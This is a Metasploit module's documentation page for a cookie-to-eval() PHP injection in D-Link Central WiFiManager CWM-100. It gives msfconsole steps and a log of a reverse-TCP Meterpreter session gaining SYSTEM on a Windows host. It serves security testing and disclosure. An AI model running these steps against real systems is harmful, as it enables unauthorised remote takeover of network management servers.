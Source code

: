 ## Vulnerable Application

### Introduction

This module exploits a PHP code injection vulnerability in D-Link Central WiFiManager CWM‑100.
The vulnerability exists because a user-controlled cookie is passed to the `eval()` function without being
sanitized.

Because the HTTP server runs in the context of a privileged user (with a default installation),
successful exploitation results in code execution as nt_authority\system.

A vulnerable version is available at DLink's vulnerability announcement:
- [The announcement](https://supportannouncement.us.dlink.com/announcement/publication.aspx?name=SAP10117)
- [ftp://ftp2.dlink.com/SOFTWARE/CENTRAL_WIFI_MANAGER/CENTRAL_WI-FI_MANAGER_1.03.zip](ftp://ftp2.dlink.com/SOFTWARE/CENTRAL_WIFI_MANAGER/CENTRAL_WI-FI_MANAGER_1.03.zip)

## Verification Steps

1. Start `msfconsole`
2. Do: `use windows/http/dlink_central_wifimanager_rce`
3. Do: `set RHOSTS [RHOSTS]`
4. Check the payload options: `show options`
5. Do: `exploit`
6. Verify that you get a shell / meterpreter / that whatever payload you used was executed

## Options

No additional options

## Scenarios

### CWM-100 v1.03

#### Getting a meterpreter session

```
msf5 exploit(windows/http/dlink_central_wifimanager_rce) > 
msf5 exploit(windows/http/dlink_central_wifimanager_rce) > exploit 

[*] Started reverse TCP handler on 192.168.1.222:4444 
[*] Executing automatic check (disable AutoCheck to override)
[+] The target is vulnerable.
[*] Sending stage (38288 bytes) to 192.168.1.223
[*] Meterpreter session 1 opened (192.168.1.222:4444 -> 192.168.1.223:1783) at 2020-08-13 14:51:09 +0200

meterpreter > sysinfo
Computer    : REVM-PC
OS          : Windows NT REVM-PC 6.1 build 7601 (Windows 7 Professional N Edition Service Pack 1) i586
Meterpreter : php/windows
meterpreter > getuid 
Server username: SYSTEM (0)
meterpreter > pwd
C:\Program Files (x86)\D-Link\Central WifiManager\web
meterpreter > ls
Listing: C:\Program Files (x86)\D-Link\Central WifiManager\web
==============================================================

Mode              Size    Type  Last modified              Name
----              ----    ----  -------------              ----
100666/rw-rw-rw-  177     fil   2014-09-16 16:19:18 +0200  .htaccess
100666/rw-rw-rw-  138884  fil   2016-01-28 13:36:32 +0100  AP_Installation_utility_for_cwm.zip
40777/rwxrwxrwx   4096    dir   2020-08-13 12:50:25 +0200  CapLoginStyle
40777/rwxrwxrwx   0       dir   2020-08-13 12:50:25 +0200  Common
40777/rwxrwxrwx   4096    dir   2020-08-13 12:50:45 +0200  Conf
40777/rwxrwxrwx   0       dir   2020-08-13 12:50:25 +0200  DBBackup
40777/rwxrwxrwx   4096    dir   2020-08-13 12:50:44 +0200  Lang
40777/rwxrwxrwx   0       dir   2020-08-13 12:50:26 +0200  Lib
40777/rwxrwxrwx   4096    dir   2020-08-13 12:50:45 +0200  Public
100666/rw-rw-rw-  256     fil   2014-09-16 16:19:18 +0200  README.txt
40777/rwxrwxrwx   0       dir   2020-08-13 13:02:13 +0200  Runtime
40777/rwxrwxrwx   4096    dir   2020-08-13 12:50:27 +0200  ThinkPHP
40777/rwxrwxrwx   0       dir   2020-08-13 12:50:26 +0200  Tpl
40777/rwxrwxrwx   4096    dir   2020-08-13 12:50:38 +0200  captivalportal
40777/rwxrwxrwx   4096    dir   2020-08-13 12:50:36 +0200  ckeditor
100666/rw-rw-rw-  15086   fil   2014-09-16 16:19:18 +0200  favicon.ico
100666/rw-rw-rw-  158     fil   2014-09-16 16:19:18 +0200  index.php
100666/rw-rw-rw-  122     fil   2015-10-29 14:17:48 +0100  redrect.php
100666/rw-rw-rw-  211     fil   2014-09-16 16:19:18 +0200  robots.txt
```
